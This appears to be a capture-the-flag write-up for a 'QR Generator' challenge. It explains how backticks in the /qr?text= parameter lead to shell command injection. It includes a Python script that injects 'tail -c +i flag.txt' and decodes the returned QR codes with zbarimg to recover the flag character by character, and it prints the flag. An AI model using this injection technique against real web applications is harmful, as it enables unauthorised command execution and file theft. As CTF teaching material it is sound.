 # QR Generator

Website is simple: we input, it goes to a url and uses it to generate a QR code of what we input. Sadly, only the first character of what we input gets QR coded. More on this later.

I decided to cut out the middle man and go straight to `/qr?text=<insert text here>` for ease. I found when putting backticks inside of the text it errored.

A little research tells you that backticks are used for shells within a shell in php and bash. So there's probably some horribly filtered system or eval commands going on there that allow us to execute code using `<command>`.

We find that the output of the command is actually stored in the qr code! Hazzah! cat flag.txt it is!

Except...

It still only takes the first character.

I wrote a nice little script that uses tail to grab bytes of the flag at different positions, automating the qr code scan using zbarimg.

### Note: I knew it must be in the cat flag.txt because

* It didn't error like some other commands did
* The first two characters were rt, so I took a wild guess.

```python
import requests, os, re
flag = ''
def urlencode(text):
    output = ''
    for char in text:
        output += '%' + hex(ord(char))[2:].upper()
    return output
i = 1
while '}' not in flag:
    try:
        payload = f"` tail -c +{i} flag.txt `"
        enc = urlencode(payload)
        url = "http://challs.houseplant.riceteacatpanda.wtf:30004/qr?text=" + enc
        os.system(f"wget {url} -O temp.png")
        char = os.popen("zbarimg temp.png").read().split('\n')[0]
        realchar = re.findall("QR-Code:(.*)", char)[0]
        flag += realchar
    except:
        print(flag)
        quit()
    finally:
        i += 1
print("FLAG ACQUIRED!")
print(flag)
```

## rtcp{fl4gz\_1n\_qr\_c0d3s???\_b1c3fea}

